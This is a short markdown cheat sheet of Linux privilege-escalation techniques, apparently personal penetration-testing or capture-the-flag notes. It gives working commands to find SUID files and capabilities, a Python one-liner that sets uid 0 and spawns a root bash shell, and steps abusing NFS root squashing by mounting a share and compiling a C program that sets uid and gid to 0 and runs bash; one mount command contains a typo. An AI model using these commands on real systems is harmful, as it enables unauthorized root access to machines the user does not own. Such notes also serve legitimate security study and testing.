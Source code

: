 ### suid 

1. Find suid perm files
2. `find / -perm -u=s -type f 2>/dev/null`

`strace` look at process execution 
`strings` print sequence of printable characters in files 


### Capabilities 

- `getcap -r / 2>/dev/null`
- `/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'`


### NFS Root Squashing 
perform actions as root. 

- check for root squashing `cat /etc/exports`
- `showmount -e 192.168.4.67`  see what's mountable
- `mkdir /tmp/mountme`
- `mount -o rw,vers=2 192.168.4.67:/tmp /tmp mountme`
- `echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/mountme/x.c` 
- compile `gcc /tmp/mountme/x.c -o /tmp/mountme/x` 

